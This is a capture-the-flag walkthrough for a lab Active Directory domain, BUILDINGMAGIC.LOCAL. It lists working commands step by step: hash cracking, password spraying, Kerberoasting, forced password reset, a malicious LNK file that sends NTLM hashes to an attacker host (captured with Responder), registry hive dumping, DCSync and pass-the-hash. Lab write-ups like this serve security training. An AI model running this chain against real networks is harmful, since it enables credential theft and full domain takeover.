# AD Challenge Lab: BuildingMagic (Easy) — Walkthrough

**Platform:** Hack Smarter  
**Difficulty:** Easy  
**Objective:** Full compromise of the Active Directory domain `BUILDINGMAGIC.LOCAL`

---

## Table of Contents

1. [Initial Access — Cracking Leaked Hashes](#1-initial-access--cracking-leaked-hashes)
2. [Enumeration — Network Scanning (Nmap)](#2-enumeration--network-scanning-nmap)
3. [Password Spraying via SMB](#3-password-spraying-via-smb)
4. [Enumerating User r.widdleton](#4-enumerating-user-rwiddleton)
5. [Kerberoasting — Getting r.haggard's Hash](#5-kerberoasting--getting-rhaggards-hash)
6. [BloodHound Enumeration](#6-bloodhound-enumeration)
7. [ForceChangePassword — Pivoting to h.potch](#7-forcechangepassword--pivoting-to-hpotch)
8. [NTLM Hash Capture via Malicious LNK (ntlm_theft + Responder)](#8-ntlm-hash-capture-via-malicious-lnk-ntlm_theft--responder)
9. [Shell Access as h.grangon — SeBackupPrivilege Abuse](#9-shell-access-as-hgrangon--sebackupprivilege-abuse)
10. [Hash Spraying — Pivoting to a.flatch](#10-hash-spraying--pivoting-to-aflatch)
11. [DCSync Attack — Dumping Domain Credentials](#11-dcsync-attack--dumping-domain-credentials)
12. [Domain Compromise — Administrator Access](#12-domain-compromise--administrator-access)
13. [Attack Chain Summary](#13-attack-chain-summary)

---

## Setup

Add the following entries to your `/etc/hosts` file before starting:

```
<DC_IP>  buildingmagic.local
<DC_IP>  dc01.buildingmagic.local
```

---

## 1. Initial Access — Cracking Leaked Hashes

We were provided with a leaked database containing 10 users and their MD5-hashed passwords. I submitted all hashes to [CrackStation](https://crackstation.net) and recovered two plaintext passwords:

| Username | Hash (MD5) | Cracked Password |
|---|---|---|
| r.widdleton | `c4a21c4d438819d73d24851e7966229c` | `lilronron` |
| n.bottomsworth | `61ee643c5043eadbcdc6c9d1e3ebd298` | `shadowhex7` |





---

## 2. Enumeration — Network Scanning (Nmap)

I ran a full port scan against the target to identify running services:




```bash
nmap -sC -sV -p- buildingmagic.local
```

**Key findings:**

| Port | Service | Notes |
|---|---|---|
| 53 | DNS | Simple DNS Plus |
| 80 | HTTP | Microsoft IIS 10.0 |
| 88 | Kerberos | Domain: BUILDINGMAGIC.LOCAL |
| 389 / 3268 | LDAP | Active Directory |
| 445 | SMB | Signing enabled and required |
| 3389 | RDP | DC01.BUILDINGMAGIC.LOCAL |
| 5985 | WinRM | HTTP-based remote management |
| 8080 | HTTP | Werkzeug/Python — "Building Magic Application Portal" |

This is clearly a **Domain Controller** (`DC01`) running Windows Server 2022. The WinRM port (5985) is especially interesting for lateral movement.

---

## 3. Password Spraying via SMB

Using the two cracked passwords and all 10 usernames, I ran a password spray with NetExec:

```bash
nxc smb buildingmagic.local -u users.txt -p valid_pass.txt --continue-on-success
```

**Result:** One valid account found:

```
[+] BUILDINGMAGIC.LOCAL\r.widdleton:lilronron
```


---

## 4. Enumerating User r.widdleton

### SMB Shares

```bash
nxc smb buildingmagic.local -u 'r.widdleton' -p 'lilronron' --shares
```



Accessible shares: `IPC$` (READ). A share called `File-Share` was visible but not accessible with this user.

### User Enumeration

```bash
nxc smb buildingmagic.local -u 'r.widdleton' -p 'lilronron' --users
```



This revealed additional domain users not present in the leaked database:

```
h.potch
r.haggard
h.grangon
a.flatch
```

I updated my username list and added these new accounts for further attacks.

---

## 5. Kerberoasting — Getting r.haggard's Hash

With valid domain credentials, I attempted a Kerberoasting attack to request service tickets for accounts with SPNs:

```bash
impacket-GetUserSPNs buildingmagic.local/r.widdleton:'lilronron' -dc-ip <DC_IP> -request
```

**Result:** User `r.haggard` had an SPN registered (`HOGWARTS-DC/r.hagrid.WIZARDING.THM:60111`) and a TGS ticket was returned.

I cracked the `krb5tgs$23` hash with John the Ripper:

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

**Cracked credentials:**

```
USERNAME: r.haggard
PASSWORD: rubeushagrid
```


---

## 6. BloodHound Enumeration

With `r.haggard`'s credentials, I ran BloodHound to map the AD attack paths:

```bash
nxc ldap DC01.BUILDINGMAGIC.LOCAL -u r.haggard -p 'rubeushagrid' \
  --bloodhound --collection All --dns-server <DC_IP>
```

**Key discovery:** `r.haggard` has **ForceChangePassword** rights over `h.potch`.



---

## 7. ForceChangePassword — Pivoting to h.potch

Using the `net rpc` command, I changed `h.potch`'s password without needing to know the current one:

```bash
net rpc password "H.POTCH" "Password@" \
  -U "buildingmagic.local"/"r.haggard"%"rubeushagrid" \
  -S "buildingmagic.local"
```

**New credentials:**

```
USERNAME: H.POTCH
PASSWORD: Password@
```



### Checking h.potch's SMB Access

```bash
nxc smb buildingmagic.local -u H.POTCH -p 'Password@' --shares
```

`h.potch` has **READ + WRITE** access to the `File-Share` share — this is a critical vector for the next step.



---

## 8. NTLM Hash Capture via Malicious LNK (ntlm_theft + Responder)

Since `h.potch` can write to `File-Share`, I generated a malicious `.lnk` file that forces any user browsing the share to authenticate to my machine, leaking their NTLMv2 hash.

### Step 1 — Generate the malicious file

```bash
python3 ntlm_theft.py --verbose --generate modern \
  --server <ATTACKER_IP> --filename "meetingXYZ"
```

### Step 2 — Upload to the share

```bash
smbclient \\\\buildingmagic.local\\File-Share -U H.POTCH
smb: \> put meetingXYZ.lnk
```

### Step 3 — Start Responder

```bash
sudo responder -I tun0 -dPv
```





### Result

When a user browsed the share, Responder captured their NTLMv2 hash:

```
[SMB] NTLMv2-SSP Username: BUILDINGMAGIC\h.grangon
[SMB] NTLMv2-SSP Hash: h.grangon::BUILDINGMAGIC:<full_hash>
```

I cracked it with Hashcat or John:

**Cracked credentials:**

```
USERNAME: h.grangon
PASSWORD: magic4ever
```

---

## 9. Shell Access as h.grangon — SeBackupPrivilege Abuse

`h.grangon` has WinRM access. I connected with Evil-WinRM:

```bash
evil-winrm -i <DC_IP> -u h.grangon -p 'magic4ever'
```

### Privilege Check

```powershell
whoami /priv
```



**Critical finding:** `SeBackupPrivilege` is **Enabled**.

### Dumping SAM & SYSTEM Hives

`SeBackupPrivilege` allows reading any file on the system, bypassing ACLs. I used it to export the registry hives:

```powershell
reg save hklm\sam C:\Temp\sam
reg save hklm\system C:\Temp\system
download sam
download system
```




### Extracting Hashes with pypykatz

```bash
pypykatz registry --sam sam system
```

**Extracted local Administrator hash:**

```
Administrator:500:...:520126a03f5d5a8d836f1c4f34ede7ce:::
```



> **Note:** This is the **local** Administrator hash, not the domain Administrator. WinRM login with this hash failed, so I needed to find a domain account that reuses it.

---

## 10. Hash Spraying — Pivoting to a.flatch

I sprayed the extracted local Administrator NTLM hash across all known domain users:

```bash
nxc smb buildingmagic.local -u users.txt -H '520126a03f5d5a8d836f1c4f34ede7ce'
```

**Hit:**

```
[+] BUILDINGMAGIC.LOCAL\a.flatch:520126a03f5d5a8d836f1c4f34ede7ce (Pwn3d!)
```

---

## 11. DCSync Attack — Dumping Domain Credentials

Checking BloodHound for `a.flatch` revealed it has **DS-Replication-GetChanges** and **DS-Replication-GetChanges-All** privileges on the domain — this means it can perform a **DCSync** attack to pull all NTDS.DIT secrets.

```bash
impacket-secretsdump 'buildingmagic.local/a.flatch'@<DC_IP> \
  -hashes :520126a03f5d5a8d836f1c4f34ede7ce
```



**Domain Administrator hash extracted:**

```
BUILDINGMAGIC.LOCAL\Administrator:500:...:3ee173b522c0f19f2c7f618f54f1e390:::
```



---

## 12. Domain Compromise — Administrator Access

Using the domain Administrator's NTLM hash with Pass-the-Hash via Evil-WinRM:

```bash
evil-winrm -i <DC_IP> -u administrator -H '3ee173b522c0f19f2c7f618f54f1e390'
```

```
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```



**Domain fully compromised.**

---

## 13. Attack Chain Summary

```
Leaked DB (MD5 hashes)
        │
        ▼
  CrackStation → r.widdleton:lilronron
        │
        ▼
  SMB Password Spray → Valid login confirmed
        │
        ▼
  User Enumeration → Discover h.potch, r.haggard, h.grangon, a.flatch
        │
        ▼
  Kerberoasting (r.widdleton) → r.haggard TGS hash → rubeushagrid
        │
        ▼
  BloodHound → r.haggard has ForceChangePassword over h.potch
        │
        ▼
  ForceChangePassword → h.potch:Password@
        │
        ▼
  SMB Write Access (File-Share) → Upload malicious .lnk
        │
        ▼
  Responder captures NTLMv2 → h.grangon:magic4ever
        │
        ▼
  Evil-WinRM shell → SeBackupPrivilege → SAM/SYSTEM dump
        │
        ▼
  Local Admin hash → Hash Spray → a.flatch (Pwn3d!)
        │
        ▼
  BloodHound → a.flatch has DCSync rights
        │
        ▼
  impacket-secretsdump → Domain Admin NTLM hash
        │
        ▼
  Evil-WinRM (Pass-the-Hash) → SYSTEM / Domain Admin ✓
```

---

## Tools Used

| Tool | Purpose |
|---|---|
| CrackStation | Online MD5 hash cracking |
| Nmap | Network/port scanning |
| NetExec (nxc) | SMB auth, user enum, hash spraying |
| impacket-GetUserSPNs | Kerberoasting |
| John the Ripper | Password cracking |
| BloodHound / nxc ldap | AD attack path enumeration |
| net rpc | ForceChangePassword |
| ntlm_theft | Malicious file generation for hash capture |
| Responder | NTLMv2 hash capture |
| Evil-WinRM | Remote shell via WinRM |
| pypykatz | Registry hive parsing |
| impacket-secretsdump | DCSync / NTDS.DIT dump |